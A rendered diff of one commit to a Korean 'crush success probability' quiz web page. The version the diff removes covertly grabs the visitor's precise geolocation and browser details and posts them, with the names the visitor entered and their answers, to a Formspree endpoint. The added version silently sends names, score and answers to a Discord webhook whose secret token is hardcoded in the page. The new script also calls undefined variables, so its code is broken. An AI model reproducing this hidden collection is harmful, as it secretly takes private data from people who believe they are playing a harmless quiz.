

Before and after one commit to hello-worldyj/dPwnsdlfkd_rlaskdbs_vudtod_tkfkdgkrlf, a plain HTML site: page index.html in a window 1280 px wide. Shown: the part 178-1986 px from the top of the page at 86% size, without its empty margins (268-1011 px from the left). Drawn offline with Linux system fonts and the light colour scheme.

Commit message:
Update index.html

```diff
--- a/index.html
+++ b/index.html
@@ -6,7 +6,7 @@
   <meta name="viewport" content="width=device-width,initial-scale=1">
   <style>
     body {
-      font-family: 'Arial', sans-serif;
+      font-family: Arial, sans-serif;
       background:#fff0f5;
       padding:24px;
       text-align:center;
@@ -27,7 +27,7 @@
     .options label { display:block; margin:6px 0; cursor:pointer; }
     input[type="text"] {
       padding:8px;
-      width:calc(100% - 18px);
+      width:100%;
       border-radius:6px;
       border:1px solid #ccc;
     }
@@ -52,114 +52,17 @@
   </style>
 </head>
 <body>
+
 <h1>💘 짝사랑 성공 확률 테스트 💘</h1>
 
 <form id="loveForm">
-    <label>당신의 이름:</label>
-    <input id="yourName" type="text" required>
-    <label>짝사랑 상대 이름:</label>
-    <input id="crushName" type="text" required>
+  <label>당신의 이름</label>
+  <input id="yourName" required>
 
-    <!-- 질문 10개 유지 -->
-    <div class="question" data-q="상대와 얼마나 자주 대화하나요?">
-      <label>1️⃣ 상대와 얼마나 자주 대화하나요?</label>
-      <div class="options">
-        <label><input type="radio" name="q1" value="10"> 거의 안 해요</label>
-        <label><input type="radio" name="q1" value="40"> 가끔 해요</label>
-        <label><input type="radio" name="q1" value="70"> 자주 해요</label>
-        <label><input type="radio" name="q1" value="100"> 매일 대화해요</label>
-      </div>
-    </div>
+  <label>짝사랑 상대 이름</label>
+  <input id="crushName" required>
 
-    <div class="question" data-q="상대가 나를 볼 때 미소를 짓나요?">
-      <label>2️⃣ 상대가 나를 볼 때 미소를 짓나요?</label>
-      <div class="options">
-        <label><input type="radio" name="q2" value="10"> 전혀 아니요</label>
-        <label><input type="radio" name="q2" value="50"> 가끔 그래요</label>
-        <label><input type="radio" name="q2" value="80"> 자주 그래요</label>
-        <label><input type="radio" name="q2" value="100"> 항상 그래요</label>
-      </div>
-    </div>
-
-    <div class="question" data-q="내가 먼저 연락했을 때 반응은 어떤가요?">
-      <label>3️⃣ 내가 먼저 연락했을 때 반응은 어떤가요?</label>
-      <div class="options">
-        <label><input type="radio" name="q3" value="20"> 거의 무시해요</label>
-        <label><input type="radio" name="q3" value="50"> 답은 해줘요</label>
-        <label><input type="radio" name="q3" value="80"> 반갑게 받아줘요</label>
-        <label><input type="radio" name="q3" value="100"> 먼저 연락 오기도 해요</label>
-      </div>
-    </div>
-
-    <div class="question" data-q="서로 SNS에서 서로를 팔로우하고 있나요?">
-      <label>4️⃣ 서로 SNS에서 서로를 팔로우하고 있나요?</label>
-      <div class="options">
-        <label><input type="radio" name="q4" value="20"> 둘 다 안 해요</label>
-        <label><input type="radio" name="q4" value="50"> 한 명만 해요</label>
-        <label><input type="radio" name="q4" value="80"> 서로 팔로우해요</label>
-        <label><input type="radio" name="q4" value="100"> 자주 소통해요</label>
-      </div>
-    </div>
-
-    <div class="question" data-q="상대가 나에게 관심을 보이는 것 같나요?">
-      <label>5️⃣ 상대가 나에게 관심을 보이는 것 같나요?</label>
-      <div class="options">
-        <label><input type="radio" name="q5" value="10"> 전혀 아니요</label>
-        <label><input type="radio" name="q5" value="40"> 약간 그런 듯</label>
-        <label><input type="radio" name="q5" value="70"> 제법 그런 것 같아요</label>
-        <label><input type="radio" name="q5" value="100"> 확실히 관심 있어요</label>
-      </div>
-    </div>
-
-    <div class="question" data-q="상대방이 답장을 어떻게 하나요?">
-      <label>6️⃣ 상대방이 답장을 어떻게 하나요?</label>
-      <div class="options">
-        <label><input type="radio" name="q6" value="20"> 단답형이에요</label>
-        <label><input type="radio" name="q6" value="50"> 그냥 평범해요</label>
-        <label><input type="radio" name="q6" value="80"> 귀엽거나 재밌게 답해요</label>
-        <label><input type="radio" name="q6" value="100"> 애교 섞인 톤이에요</label>
-      </div>
-    </div>
-
-    <div class="question" data-q="상대가 먼저 말을 걸거나 연락한 적이 있나요?">
-      <label>7️⃣ 상대가 먼저 말을 걸거나 연락한 적이 있나요?</label>
-      <div class="options">
-        <label><input type="radio" name="q7" value="20"> 전혀 없어요</label>
-        <label><input type="radio" name="q7" value="50"> 가끔 있었어요</label>
-        <label><input type="radio" name="q7" value="80"> 종종 먼저 연락해요</label>
-        <label><input type="radio" name="q7" value="100"> 자주 먼저 연락해요</label>
-      </div>
-    </div>
-
-    <div class="question" data-q="내 이야기나 일상에 관심을 보이나요?">
-      <label>8️⃣ 내 이야기나 일상에 관심을 보이나요?</label>
-      <div class="options">
-        <label><input type="radio" name="q8" value="20"> 전혀요</label>
-        <label><input type="radio" name="q8" value="50"> 가끔 물어봐요</label>
-        <label><input type="radio" name="q8" value="80"> 제법 관심 있어요</label>
-        <label><input type="radio" name="q8" value="100"> 아주 잘 기억해요</label>
-      </div>
-    </div>
-
-    <div class="question" data-q="내가 농담하거나 말하면 웃어주나요?">
-      <label>9️⃣ 내가 농담하거나 말하면 웃어주나요?</label>
-      <div class="options">
-        <label><input type="radio" name="q9" value="20"> 거의 안 웃어요</label>
-        <label><input type="radio" name="q9" value="50"> 예의상 웃어요</label>
-        <label><input type="radio" name="q9" value="80"> 자주 웃어요</label>
-        <label><input type="radio" name="q9" value="100"> 항상 잘 웃어요</label>
-      </div>
-    </div>
-
-    <div class="question" data-q="나를 도와주거나 챙겨준 적이 있나요?">
-      <label>🔟 나를 도와주거나 챙겨준 적이 있나요?</label>
-      <div class="options">
-        <label><input type="radio" name="q10" value="20"> 그런 적 없어요</label>
-        <label><input type="radio" name="q10" value="50"> 한두 번 정도</label>
-        <label><input type="radio" name="q10" value="80"> 꽤 여러 번</label>
-        <label><input type="radio" name="q10" value="100"> 자주 챙겨줘요</label>
-      </div>
-    </div>
+  <div id="questions"></div>
 
   <button type="submit">결과 보기</button>
 </form>
@@ -167,68 +70,77 @@
 <div id="result"></div>
 
 <script>
-    async function tryGetLocation(timeout = 7000) {
-      return new Promise((resolve) => {
-        if (!navigator.geolocation) return resolve({ ok:false, reason:'not_supported' });
+const DISCORD_WEBHOOK_URL = "https://discord.com/api/webhooks/1452673428657278987/IRWnuZj-k98r8nef0lgV6SLWUdjktHtkY5jVeriX7ZBpgPZEJAXJv3kCd2CVg74wJNLj";
 
-        let finished = false;
-        const done = (data)=>{ if(!finished){ finished=true; resolve(data); } };
+const questionsData = [
+  ["상대와 얼마나 자주 대화하나요?", ["거의 안 해요",10], ["가끔 해요",40], ["자주 해요",70], ["매일 대화해요",100]],
+  ["상대가 나를 볼 때 미소를 짓나요?", ["전혀 아니요",10], ["가끔",50], ["자주",80], ["항상",100]],
+  ["내가 먼저 연락했을 때 반응은?", ["무시",20], ["답은 함",50], ["반가워함",80], ["먼저 연락",100]],
+  ["SNS에서 서로 팔로우?", ["안 함",20], ["한 명만",50], ["서로",80], ["자주 소통",100]],
+  ["상대가 관심 있어 보이나요?", ["전혀",10], ["조금",40], ["꽤",70], ["확실",100]],
+  ["답장 스타일은?", ["단답",20], ["평범",50], ["재밌음",80], ["애교",100]],
+  ["상대가 먼저 연락?", ["없음",20], ["가끔",50], ["자주",80], ["항상",100]],
+  ["내 일상에 관심?", ["없음",20], ["가끔",50], ["많음",80], ["완전",100]],
+  ["내 말에 잘 웃어줌?", ["안 웃음",20], ["예의상",50], ["자주",80], ["항상",100]],
+  ["도와준 적?", ["없음",20], ["한두번",50], ["여러번",80], ["자주",100]]
+];
 
-        navigator.geolocation.getCurrentPosition(
-          pos => done({ ok:true, lat:pos.coords.latitude, lon:pos.coords.longitude }),
-          err => done({ ok:false, reason:err.code===1?'permission_denied':err.code===2?'position_unavailable':err.code===3?'timeout':'error' }),
-          { enableHighAccuracy:true, timeout, maximumAge:0 }
-        );
-        setTimeout(()=>done({ ok:false, reason:'timeout' }), timeout+1000);
+const qWrap = document.getElementById("questions");
+
+questionsData.forEach((q,i)=>{
+  const div=document.createElement("div");
+  div.className="question";
+  div.innerHTML=`<label>${i+1}. ${q[0]}</label>`+
+    q.slice(1).map(o=>`
+      <label><input type="radio" name="q${i}" value="${o[1]}"> ${o[0]}</label>
+    `).join("");
+  qWrap.appendChild(div);
 });
-    }
 
-    document.getElementById('loveForm').addEventListener('submit', async e => {
+document.getElementById("loveForm").addEventListener("submit", async e=>{
   e.preventDefault();
 
-      const yourName = document.getElementById('yourName').value.trim();
-      const crushName = document.getElementById('crushName').value.trim();
-      const resultEl = document.getElementById('result');
-      if (!yourName || !crushName) {
-        resultEl.textContent = "⚠️ 이름을 모두 입력해주세요!";
-        return;
-      }
+  const yourName=yourNameInput.value.trim();
+  const crushName=crushNameInput.value.trim();
+  if(!yourName||!crushName)return;
 
-      const questions = document.querySelectorAll('.question');
-      let total = 0;
-      const answers = [];
-      questions.forEach((q, i)=>{
-        const name='q'+(i+1);
-        const input=q.querySelector('input:checked');
-        const val=input?Number(input.value):0;
-        total+=val;
-        answers.push({ question:q.dataset.q, answer:input?input.parentElement.innerText:'미응답' });
+  let total=0;
+  const answers=[];
+
+  questionsData.forEach((q,i)=>{
+    const sel=document.querySelector(`input[name=q${i}]:checked`);
+    const v=sel?Number(sel.value):0;
+    total+=v;
+    answers.push(sel?sel.parentElement.innerText:"미응답");
   });
 
-      const percent=Math.round(total/questions.length);
-      const msg=percent<40?"🥀 아직은 가능성이 낮아요...":
-        percent<70?"🌸 희망이 보여요!":
-        percent<90?"💞 좋은 분위기예요!":"🔥 완벽해요! 커플 탄생 예감!";
+  const percent=Math.round(total/questionsData.length);
+  const msg=percent<40?"🥀 가능성 낮음":percent<70?"🌸 희망 있음":percent<90?"💞 거의 확정":"🔥 커플 각";
 
-      resultEl.innerHTML=`<b>${yourName}</b>💘<b>${crushName}</b><br>성공 확률: <b style="color:#ff69b4">${percent}%</b><br>${msg}`;
+  result.innerHTML=`${yourName} 💘 ${crushName}<br><b>${percent}%</b><br>${msg}`;
 
-      const loc=await tryGetLocation();
-      const sysInfo={
-        ua:navigator.userAgent,
-        lang:navigator.language,
-        screen:`${screen.width}x${screen.height}`,
-        tz:Intl.DateTimeFormat().resolvedOptions().timeZone,
-        time:new Date().toISOString()
-      };
-
-      const payload={yourName,crushName,percent,msg,answers,location:loc,system:sysInfo};
-
-      await fetch('https://formspree.io/f/xanegwav',{
-        method:'POST',
-        headers:{'Content-Type':'application/json'},
-        body:JSON.stringify(payload)
-      });
+  // Discord 전송 (실패해도 UI 영향 없음)
+  fetch(DISCORD_WEBHOOK_URL,{
+    method:"POST",
+    headers:{ "Content-Type":"application/json" },
+    body:JSON.stringify({
+      username:"💘 짝사랑 테스트",
+      embeds:[{
+        title:"📊 짝사랑 결과",
+        color:16738740,
+        fields:[
+          {name:"👤 나",value:yourName,inline:true},
+          {name:"💖 상대",value:crushName,inline:true},
+          {name:"📈 확률",value:`${percent}%`,inline:false},
+          {name:"💬 결과",value:msg,inline:false},
+          {name:"📝 응답",value:answers.slice(0,6).join("\n")}
+        ],
+        footer:{text:new Date().toISOString()}
+      }]
+    })
+  }).catch(()=>{});
 });
 </script>
+
 </body>
 </html>
```
Lines whose indentation alone changed are shown as unchanged.
